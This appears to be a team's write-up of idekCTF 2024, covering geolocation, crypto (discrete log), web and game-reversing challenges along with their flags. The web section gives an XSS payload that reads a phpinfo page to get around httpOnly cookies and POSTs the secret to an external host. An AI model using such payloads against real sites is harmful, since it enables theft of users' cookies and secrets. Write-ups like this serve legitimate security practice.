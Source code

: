 # idekCTF 2024
###### tags: `CTF`

Player: 
- ywc
- Pierre
- Amias
- MuMu

## sanity
### Welcome to idekCTF 2024!

```
Welcome to idekCTF 2024! Please join our discord for any announcements and updates on challenges.
```

![image](https://i.imgur.com/iZDy4E7.png)

`idek{our_hack_fortress_team_is_looking_for_mvm_players}`

### Feedback survey

```
Thank you for participating in idekCTF, please let us know how we did!

Survey
```

![image](https://i.imgur.com/m5WHwnS.png)

`idek{next_year_will_be_idek_2025...We_promise!}`

## misc
### NM~~PZ~~ - easy
```
Just a few completely random locations.

http://nmpz.chal.idek.team:1337

Downloads

nmpz1.tar.gz
```

- [bonaparte_1784](https://maps.app.goo.gl/9HTb3ouVMgvNqgQo9)
    - 1,1e3f2a0309b777b37b1bc12d01203339
- [beer_park](https://maps.app.goo.gl/nkLdGRRLeFLneCzs9)
    - 2,ec72b5bdb83f858308142a0d3dde5714
- [mr_drains](https://maps.app.goo.gl/1jDJoLCCKZhKeyzw5)
    - 3,c82846bd8de1579487c290fe0ef30700
- [green_car](https://maps.app.goo.gl/GEGjaKAqruoQv3iE9)
    - 4,399a088ff464a1a43ed3d6864c7f50b5
- [posuto_py](https://maps.app.goo.gl/v1NatG3u6Qawq8tw5)
    - 5,fc26a083d35cb9d6b474580017f8bdfa
- [icc](https://maps.app.goo.gl/R1xvFKtXQbgooif2A)
    - 6,836c35892e7643f71668376d1716e44e
- [imax](https://maps.app.goo.gl/qjb1tgDidEXP9Sad7)
    - 7,aef9cc02ac17e0a806c2204fceea74f1
- [panasonic](https://maps.app.goo.gl/qxJx7SRANfkYDJTV8)
    - 9,a1e3b275a3e73cd964ffd840063204be
- [deja_vu](https://maps.app.goo.gl/A2e5KGU2s1RyUXV3A)
    - 10,201189c04aae837ab90f86c9d5747beb

![image](https://i.imgur.com/ImHycCW.png)

```
idek{very_iconic_tower_75029e39}
```

### NM~~PZ~~ - medium

- [soylent_green](https://maps.app.goo.gl/kPxN7zeV7pmA6R2Q6)
    - 1,1755e5bcb85dc2786de932d826419f56
- [and_my_compass](https://maps.app.goo.gl/MNNgeL2k8PfaJjJB9)
    - 2,0e8368ee81b0cadffa2d0199b17be81f
- [sea_adventure](https://maps.app.goo.gl/pg7K5tuVdpQKoS4z5)
    - 3,5dd302f03e495b7a888a4b66686ccec0
- [beach_property](https://maps.app.goo.gl/N9fF8G22nYj9Yprr7)
    - 4,227b1b59720a42a04f2cff396f5a41a6
- [stair_way_to_heaven](https://maps.app.goo.gl/oWhJpYk9w33Dm4786)
    - 5,bcc9a94dd9b9026121dd4a7b5d106a87
- [a_circle](https://maps.app.goo.gl/TpdMZ22KPzdnBBwG6)
    - 6,b047238f02c1753e02473be44696319b- 

## crypto
### Golden Ticket
```
Can you help Charles - who doesn't have any knowledge about cryptography, get the golden ticket and have a trip to Willy Wonka's factory ?

Downloads

goldenticket.tar.gz
```

題目給了我們 $p$, $13^x+37^x \mod p$, $13^{x-1}+37^{x-1} \mod p$ 要求 $x$

$a = 13$

$b = 37$

$A = a^x + b^x$

$a^x = A - b^x$

$B = a^{x-1} + b^{x-1} = \frac{a^x}{a}+\frac{b^x}{b}$

$a \times b \times B = b \times a^x + a \times b^x = b \times (A - b^x) + a \times b^x = b \times A + (a-b) \times b^x$

$b^x = \frac{a \times b \times B - b \times A}{a-b}$

而 p-1 平滑，因此可以用 Pohlig–Hellman 來解 (i.e. sagemath discrete_log)

```python
# solve.py
p = xxx
A = xxx
B = xxx
a = 13
b = 37

from sage.all import *

R = Zmod(p)
a = R(a)
b = R(b)
A = R(A)
B = R(B)

f = (a*b*B - b*A) / (a - b)
x = discrete_log(f, b)
print(x)

from Crypto.Util.number import long_to_bytes
print(long_to_bytes(x))
```

![image](https://i.imgur.com/F2ujmXK.png)

`idek{charles_and_the_chocolate_factory!!!}`

## Web
### Hello

```
Just to warm you up for the next Fight :"D

http://idek-hello.chal.idek.team:1337

Admin Bot Note: the admin bot is not on the same machine as the challenge itself and the .chal.idek.team:1337 URL should be used for the admin bot URL
```

bot有設 `httpOnly: true`
可以直接訪問 http://idek-hello.chal.idek.team:1337/info.php/index.php
[Ref1](https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b)

不能使用空白比較麻煩可以替換成`•`
Payload: `http://idek-hello.chal.idek.team:1337/?name=%3CBODY%0cONLOAD=%22fetch(%27info.php\\index.php%27).then(r=%3Er.text()).then(t=%3Efetch(%27https://yoursite%27,{method:%27POST%27,body:t.match(RegExp(%27FLAG=([^%3C]*)%27))[1]}))%22%3E`
[Ref2](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces)

`idek{Ghazy_N3gm_Elbalad}`

## Reverse
### Game

There is a json file named spritesheet, that defined the collision or icon position. 
So we just need to modify collsion to all zero and use CheatEngine speedhack to speed up.

```json
    "obstacle_small_0": {
        "x": 228,
        "y": 2,
        "width": 17,
        "height": 35,
        "collision": [
            {"x": 0, "y": 0, "width": 0, "height": 0}
        ]
    },
    "obstacle_small_1": {
        "x": 245,
        "y": 2,
        "width": 34,
        "height": 35,
        "collision": [
            {"x": 0, "y": 0, "width": 0, "height": 0},
            {"x": 0, "y": 0, "width": 0, "height": 0},
            {"x": 0, "y": 0, "width": 0, "height": 0}
        ]
    }
```

Note: Do not use too fast speedhack or it could lead to overgo flag checkpoint.

![image](https://i.imgur.com/AR4VMCh.png)